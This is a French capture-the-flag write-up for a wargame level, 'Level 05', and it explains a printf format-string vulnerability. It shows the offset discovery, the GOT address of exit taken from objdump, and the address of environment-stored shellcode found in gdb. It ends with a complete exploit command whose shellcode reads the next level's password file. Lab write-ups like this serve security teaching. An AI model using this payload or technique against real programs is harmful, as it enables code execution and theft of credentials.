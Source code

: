 # Level 05
<a href="/level06"><img align='right' width=20x height=auto src="https://cdn.onlinewebfonts.com/svg/img_68680.png"></img></a>

- Il y a une vulnerabilité dans le code source le printf a une variable en tant que format
- On commence donc par reperer l'offset
```
$> python -c "import struct; print('AAAABBBB' + '%x ' * 11)" | ./level05
aaaabbbb64 f7f39580 1 0 1 f7f99980 ffffffff 1 0 61616161 62626262
```
- Pour que notre shellcode s'execute il faut rediriger la fonction exit vers celui ci
- On recupere donc l'addresse d'exit
<pre>
$> objdump -R ./level05 

./level05:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
080497dc R_386_JUMP_SLOT   \__gmon_start_\_
<strong>080497e0 R_386_JUMP_SLOT   exit</strong>
080497e4 R_386_JUMP_SLOT   \__libc_start_main
</pre>
- Le retour du fgets est modifier pour nous empecher d'y ecrire un shellcode
- La meilleur solution est donc d'ecrire le shellcode dans le env
- On recupere donc l'addresse de la variable SHELLCODE
<pre>
$> env -i SHELLCODE="$SHELLCODE" SHELL=/bin/bash gdb ./level05
(gdb) b main
Breakpoint 1 at 0x8048449
(gdb) r
Starting program: /home/users/level05/level05 

Breakpoint 1, 0x08048449 in main ()
(gdb) x/1s \*\*(char\*\*\*)&environ
0xffffdf77:      "SHELLCODE=jsh.pashl06/hlevehers/he/ush/hom\211\343\061\311\061\322j\005X\315\200j\001[\211\301\061\322h\377\377\377\177^1\300\260\273\315\200"
(gdb) x 0xffffdf77 + 10
<strong>0xffffdf81:      "jsh.pashl06/hlevehers/he/ush/hom\211\343\061\311\061\322j\005X\315\200j\001[\211\301\061\322h\377\377\377\177^1\300\260\273\315\200"</strong>
</pre>
- Apres avoir assemblé tout cela donne cette commande
```
(python -c "import struct; print('AAAA' + struct.pack('<I', 0x080497e0) + struct.pack('<I', 0x080497e2) + '%57205d' + '%11\$n' + '%8318d' + '%12\$n')") | env -i SHELLCODE="$(python -c "print('\x90' * 20 + 'jsh.pashl06/hlevehers/he/ush/hom\x89\xe31\xc91\xd2j\x05X\xcd\x80j\x01[\x89\xc11\xd2h\xff\xff\xff\x7f^1\xc0\xb0\xbb\xcd\x80')")" SHELL=/bin/bash ./level05
```

